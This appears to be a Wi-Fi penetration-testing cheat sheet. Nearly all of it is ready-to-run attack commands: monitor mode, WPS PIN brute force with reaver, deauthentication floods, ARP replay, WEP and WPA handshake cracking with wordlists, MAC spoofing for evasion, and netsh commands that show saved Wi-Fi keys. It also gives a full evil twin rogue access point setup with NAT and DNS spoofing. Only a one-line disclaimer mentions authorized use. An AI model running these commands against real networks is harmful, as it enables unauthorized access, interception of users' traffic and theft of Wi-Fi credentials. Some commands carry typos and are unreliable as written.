

<Callout type="danger" title="WPA/WPA2 Association & 4-Way Handshake">
Aircrack-ng is a widely used open-source suite for Wi-Fi security auditing and penetration testing. It can monitor wireless traffic, capture packets, and analyze WPA/WPA2 authentication handshakes. It also supports testing wireless network security by attempting to recover passwords using dictionary-based attacks. Aircrack-ng is intended for authorized security assessments and educational purposes.
</Callout>



---

<AccordionGroup>
  <Accordion title="Monitor Mode">
    ```bash
    airmon-ng check kill
    airmon-ng start wlan0 
    ```
    ```bash
    airmong-ng stop wlan0mon
    systemctl restart NetworkManager
    systemctl restart iwd
    ```
    ```bash
    airmon-ng check kill 
    ```
    ```bash
    iwconfig;ifconfig // for check
    ```

    

    ### Optional
    - change channel
    ```bash
    iwconfig wlan0 channel 6
    ```

    ### Wireshark
    ```bash
    > wireshark &
    ```
    

    ### Airodump
    ```bash
    airodump-ng -b bg wlan0mon
    ```
    
    - Select target For Monitoring
    ```bash
    airodump-ng wlan0mon -b bg -c 6 --bssid <bssid> -w /home/user/filename
    ```
  </Accordion>

  <Accordion title="Option WPS">
    ```bash
    airmon-ng check kill
    airmon-ng start wlan0 
    ```
    ```bash
    sudo wash -i wlan0 -s
    ```
    ```bash
    reaver -i wlan0mon -c <channel> -b <bssid> -f -vv --fail-wait=360 -d=61
    ```
    <Callout type="warning" title="Note">
    if Wi-fi channel Set auto don't use -f option 
    </Callout>
  </Accordion>

  <Accordion title="Aireplay (DeAuth & ARP Request)">
    - DeAuth Request
    A **Deauthentication attack** forces connected clients to disconnect from a wireless access point by sending forged deauthentication frames.
These frames impersonate the legitimate AP and instruct clients that their session is no longer valid
    ```bash
    aireplay-ng wlan0mon --deauth 0 -a <bssid>
    ```
    - ARP Request
    ```bash
    aireplay-ng wlan0mon --arpreplay -e <ESSID>
    ```
    <Callout type="tip" title="Note">
    Wait until the captured traffic reaches at least 3000 packets.
A larger number of packets increases the effectiveness of the ARP replay attack,
which helps generate sufficient IVs required for WEP key cracking.
    </Callout>
  </Accordion>

  <Accordion title="Crack">
    - WEP (RC4) 
    ```bash
    aircrack-ng filename.cap
    ```
    - WPA (AES) 
    ```bash
    aircrack-ng filename.cap -w /usr/../rockyou
    ```
    - Create Word List
    ```bash
    crunch 4 6 sbcdfsg1234 # create random pass with this charecter
    crunch 3 3 -p pitzza 123 football cat # create pass with this 3 word 
    ```
  </Accordion>

  <Accordion title="Evasion (Mac Changer)">
    ```bash
    airmong-ng stop wlan0mon
    ifconfig wlan0 down
    macchanger -m <fakemac> wlan0
    ifconfig wlan0 up
    ```
  </Accordion>

  <Accordion title="Windows Commands">
    ```cmd
    cmd > netsh wlan show networks
    cme > netsh wlan connect name="" ssid="" interface="Wi-Fi"
    cmd > netsh wlan show profiles
    cmd > netsh wlan show profile name="" key=clear
    cmd > netsh wlan show interfaces
    cmd > netsh wlan show drivers
    ```
  </Accordion>
</AccordionGroup>

---

## Evil Twin

<Steps>
  <Step title="Step 1: Setup & Recon">
    ```bash
    macchanger -m AA:BB:CC:DD:EE:FF
    airmon-ng check kill
    airmon-ng wlan0 start
    airodump-ng wlan0mon 
    airodump-ng wlan0mon -c 6 --bssid <bssid> -w /home/user/filename
    ```
  </Step>

  <Step title="Step 2: Create Fake AP">
    <Tabs>
      <Tab title="No Password">
        ```bash
        airbase-ng wlan0mon --essid "prob" -a AA:AA:AA:AA:AA:AA -c 6 -v
        ```
      </Tab>
      <Tab title="WEP (RC4)">
        ```bash
        airbase-ng wlan0mon --essid "prob" -a AA:AA:AA:AA:AA:AA -c 6 -W 1 -v
        ```
      </Tab>
      <Tab title="WPA (TKIP AES)">
        ```bash
        airbase-ng wlan0mon --essid "prob" -a BB:BB:BB:BB:BB:BB -c 6 -W 1 -z 2 -v
        ```
        ```bash
        airbase-ng wlan0mon --essid "prob" -a AA:BB:CC:32:FF:AA -c 6 -z 4 -v
        ```
      </Tab>
      <Tab title="WPA2 (TKIP AES)">
        ```bash
        airbase-ng wlan0mon --essid "prob" -a AA:BB:CC:32:FF:AA -c 6 -Z 2 -v 
        ```
        ```bash
        airbase-ng wlan0mon --essid "prob" -a AA:BB:CC:32:FF:AA -c 6 -W 1 -Z 4 -v
        ```
      </Tab>
      <Tab title="Optional (All Probe Requests)">
        ```bash
        airbase-ng wlan0mon -P -C 10 AA:BB:CC:DD:EE:FF -v
        ```
      </Tab>
    </Tabs>
  </Step>

  <Step title="Step 3: DeAuth Request & Handshake Check">
    <Callout type="info">
    DeAuth Request For Disconnect Client
    </Callout>
    ```bash
    aireplay-ng wlan0mon --deauth 0 -a <bssid>
    ```
    <Callout type="info">
    Check for Handshake
    </Callout>
    ```bash
    aircrack-ng targetfile.cap
    ```
  </Step>

  <Step title="Step 4: Configure Interface & Routing">
    Bring up the virtual interface created by **airbase-ng**:
    ```bash
    ifconfig at0 up
    ```
    Enable NAT so clients connected to the fake AP can access the internet through the attacker machine:
    ```bash
    sudo iptables -t nat -A POSTROUTING -o wlan0 -j MASQUERADE
    sudo iptables -A FORWARD -i at0 -o wlan0 -j ACCEPT
    sudo iptables -A FORWARD -i wlan0 -o at0 -j ACCEPT
    ```
    Assign IP address to the rogue AP interface:
    ```bash
    sudo ifconfig at0 10.0.0.1 netmask 255.255.255.0
    ```
    Enable IP forwarding:
    ```bash
    sudo sysctl -w net.ipv4.ip_forward=1
    ```
  </Step>

  <Step title="Step 5: Post Attack">
    - Sniff DNS query client
    ```bash
    dnsspoof -i <interface>
    ```
    - Sniff Packet 
    ```bash
    airdecap-ng -e "Devname" -p ***** file.cap
    ```
  </Step>
</Steps>

---

## WEP Cracking with Airoscript

<Callout type="info" title="Context">
**Wired Equivalent Privacy (WEP)** is a highly vulnerable and obsolete Wi-Fi encryption protocol. `airoscript` is an interactive wrapper script for the Aircrack-ng suite, designed to automate the process of cracking WEP keys.
WEP can be cracked easily because of flaws in its IV (Initialization Vector) generation. It requires collecting a large number of packets (usually via ARP replay) to recover the key.
</Callout>

<Steps>
  <Step title="Step 1: Launch airoscript">
    ```bash
    # Start airoscript
    airoscript
    ```
  </Step>
  <Step title="Step 2: Interface & Monitor Mode">
    ```text
    Option: 1       # Put interface into monitor mode
    Option: 4       # Select the interface
    ```
  </Step>
  <Step title="Step 3: Scanning for Targets">
    ```text
    Input number: 1 # Scan
    Input number: 1 # No filter
    Input number: 1 # Channel hopping
    # Press Ctrl + C to stop scanning when you see the target
    ```
  </Step>
  <Step title="Step 4: Select Target & Associated Client">
    ```text
    Input number: 2 # Select target
    Input number: * # (Select the specific target number from the list)
    Option: 1       # Client associated
    Option: 1       # Select MAC of the associated client
    ```
  </Step>
  <Step title="Step 5: Attack (Capture & ARP Replay)">
    ```text
    Input number: 3 # Attack
    Option: 7       # ARP replay automatic (Generates IVs)
    ```
  </Step>
  <Step title="Step 6: Deauthentication (Force Traffic)">
    ```text
    Input number: 6 # Send deauth packets
    Option: 3       # Selected client (to force reconnect and generate ARP packets)
    ```
  </Step>
  <Step title="Step 7: Cracking the Key">
    ```text
    Input number: 4 # Crack option
    Option: 1       # Aircrack PTW (Use the PTW attack to crack the WEP key)
    ```
  </Step>
</Steps>
